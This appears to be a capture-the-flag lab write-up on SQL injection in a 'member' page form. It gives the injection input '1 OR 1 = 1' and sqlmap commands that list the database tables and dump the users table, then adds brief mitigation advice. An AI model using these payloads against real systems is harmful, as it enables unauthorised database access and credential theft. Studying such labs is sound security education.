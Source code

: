 # SQL Injection Member

The form in the member page has an input value which isn't sanatized when processed by the server.

## Table of Contents

- [Steps](#Steps)
- [Ways to secure](#Ways to secure)

### Steps
Go to the member page <a href="http://192.168.56.102/?page=member">http://192.168.0.108/?page=member</a>

In the form input enter
```bash
1 OR 1 = 1
```

Press the submit button

Run reconnaissance
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --tables
```

We want to extract information from the users table
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --dump -T users
```
<img src="https://i.imgur.com/czJyCei.png" />

<a href="" target="_blank">Decrypt</a> the password

To get the key, run
```bash
py sha256encrypt.py fortytwo
```

#### Ways to secure
Always validate and sanatize input from client
Use prepared statements and stored procedures

